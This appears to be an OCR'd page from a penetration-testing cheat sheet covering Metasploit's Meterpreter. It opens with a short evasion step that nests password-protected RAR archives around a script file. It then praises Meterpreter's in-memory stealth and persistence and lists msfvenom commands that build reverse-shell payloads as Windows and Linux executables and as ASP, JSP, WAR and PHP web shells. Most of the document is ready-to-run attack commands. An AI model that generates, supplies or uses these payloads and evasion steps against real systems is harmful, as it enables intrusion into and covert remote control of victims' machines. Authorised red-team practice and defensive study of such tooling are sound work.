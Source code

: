 ## Evasion Techniques
```bash
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js

$ mv test.rar test
$ rar a test2.rar -p test
$ mv test2.rar test2
```

# Meterpreter
The Meterpreter Payload is a specific type of multi-faceted, extensible Payload that uses DLL injection to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes. Furthermore, Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.

```bash
msf6 <TYPE>(<MODULE>) > grep meterpreter show payloads
```

## Meterpreter Shells
windows/meterpreter_reverse_https is actually a much more powerful choice because of the encrypted channel, and it allows you to disconnect the payload (and exit msfconsole) without terminating it. And then the payload will automatically get back to you as soon as you set up the handler again.

### Payloads
```bash
# Staged Payloads for Windows
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Stageless Payloads for Windows
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Staged Payloads for Linux
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Stageless Payloads for Linux
$ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# asp	
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp

# war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war

# php
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
``` 
